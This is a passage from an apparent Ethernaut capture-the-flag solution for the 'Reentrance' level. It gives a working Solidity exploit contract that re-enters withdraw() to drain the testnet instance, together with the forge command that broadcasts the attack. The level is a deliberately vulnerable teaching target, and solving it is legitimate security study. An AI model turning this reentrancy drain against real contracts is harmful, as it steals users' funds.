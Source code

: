 ```
1000000000000000 wei
```

Which equals `0.001 ether`. This is what we can steal.

### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.12;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Reentrance.sol";

contract Evil {
    Reentrance public reentranceInstance = Reentrance(payable(0x6d279A9d789bA35A68a2fC5e9FC279a1736470BB));

    constructor() public payable {
        reentranceInstance.donate{value: 0.001 ether}(address(this));
    }

    function attack() public payable {
        reentranceInstance.withdraw(0.001 ether);
        address(msg.sender).call{value: 0.002 ether}("");
    }

    receive() external payable {
        reentranceInstance.withdraw(0.001 ether);
    }
}

contract ReentranceSolution is Script {
    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Evil evil = new Evil{value: 0.001 ether}();
        evil.attack{value: 0.001 ether}();
        vm.stopBroadcast();
    }
}
```

### POC

```bash
forge script script/ReentranceSolution.s.sol --rpc-url $SEPOLIA_URL --tc ReentranceSolution --broadcast
```